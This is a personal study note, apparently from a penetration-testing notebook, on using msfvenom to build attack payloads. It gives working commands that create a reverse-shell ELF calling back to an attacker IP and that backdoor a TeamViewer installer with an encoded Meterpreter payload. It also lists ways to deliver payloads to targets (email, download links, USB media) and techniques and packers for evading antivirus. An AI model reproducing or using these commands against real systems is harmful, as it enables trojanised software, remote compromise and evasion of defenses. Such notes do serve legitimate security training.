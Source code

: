 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
MSFvenom is a tool within the [[Metasploit]] framework for creating, encrypting & encoding payloads. The delivery of these payloads is up to the attacker, this tool only aids to creates them. This is a really useful tool if we don't have direct access to the target system but we need a payload that we can deliver another way (eg. social engineering).

### Staged vs Stageless Payloads
A *staged* payload will only setup a 'small stage' that will then call back to the attack box to download the rest of the payload, and execute it. These take up space in memory so there is less space for the actual payload. These are useful when an exploit scenario has little space for a large payload to be uploaded but instead we could upload a stage that then downloads a larger payload into a more suitable place / into larger memory.

A *stageless* payload does not have a stage. The entire payload is sent over the network connection at once. This could benefit us in environments with little bandwidth or latency where a staged payload may not be stable enough. Sometimes these can be better for evasion too as they cause less network traffic, which could be helpful for a social engineering attack.

The description or the format of the name of the payload can identify if it is staged or stageless.
```bash
# Staged (indicated by the /'s ) we can see the different stages (eg. {0} create a shell, {1} then create a reverse tcp)
windows/meterpreter/reverse_tcp
linux/x86/shell/reverse_tcp

# Stageless
windows/meterpreter_reverse_tcp
linux/zarch/meterpreter_reverse_tcp
```

![[Metasploit#Installation]]

## Documentation
**Cheatsheet:** 
**Website:** 
## Usage

### List all payloads
```sh
msfvenon -l payloads
# Payloads will commonly be named with their OS first eg. windows/dllinject/bind_tcp
```

### Building a stageless payload
```bash
msfvenom -p [payload_path] [options] -f [binary_format] > [file_name].[binary_format]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.112 LPORT=443 -f elf > createbackup.elf
```
We could then deliver this to our target system, common ways include:
- Email with file attached
- Download link on a website
- Combined with a metasploit exploit (but would likely need us to be on the internal network)
- Via portable media during an on-site attack
> We also need to make sure it gets executed once on the system.

![[Metasploit#Scanning a payload for possible detection]]

### Building a backdoor'ed executable
You can build a payload into an existing executable by using the `-k` flag. This will embed the payload into the executable and when run, will create a separate thread from the main application that is running our backdoor.
```sh
# This command embeds the meterpreter stageless payload into the provided TeamViewer_Setup.exe.
# It also encodes the payload using the shikata_ga_nai algo with 5 iterations.
msfvenom window/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -i 5 -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe
```
> The only issue with this is that if the application is launched via a CLI, a second window running the payload will open too.

## Evading AV detection
There are many protection mechanisms eg. [[Intrusion Detection]] and AVs. These systems are getting sophisticated and are capable of detecting most *default* payloads. Some mechanisms for evading them are still present as most AVs heavily rely on signature detection.
### Multi-layered archiving
Using a tool like [RAR utility](https://www.rarlab.com/download.htm) (WinRAR for linux) we can double archive a payload, making it much harder to get the actual signature of the contents.
### Using Encoding
Although this is often not enough these days to evade all AVs, it is still a critical step to be used with other techniques. Algorithms like `shikata_ga_nai` with multiple iterations can drastically improve the signature evasion capabilities of a payload.
### Packers
This is where the payload is compressed with the executable, to later be decompressed into its original form for execution. MSFVenom also allows you to change the file structure and encrypt the underlying process structure to further complicate the payload's signature.
- [UPX packer](https://upx.github.io/)
- [The Enigma Protector](https://enigmaprotector.com/)
- [MPRESS](https://web.archive.org/web/20240310213323/https://www.matcode.com/mpress.htm)
- Alternate EXE Packer
- ExeStealth
- Morphine
- MEW
- Themida
